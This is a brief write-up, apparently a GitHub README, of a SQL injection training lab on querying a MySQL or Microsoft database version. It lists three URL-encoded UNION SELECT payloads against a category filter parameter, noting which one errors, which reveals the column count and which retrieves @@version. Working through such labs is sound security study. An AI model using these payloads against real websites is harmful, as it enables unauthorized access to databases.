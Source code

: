 # lab-querying-database-version-mysql-microsoft

Comment sign is "#" (%23 url-encoded).

`/filter?category=Lifestyle%27+UNION+SELECT+NULL%23`: Internal Server Error

`/filter?category=Lifestyle%27+UNION+SELECT+NULL,+NULL%23`: Ok (2 columns)

`/filter?category=Lifestyle%27+UNION+SELECT+@@version,+NULL%23`: Solved
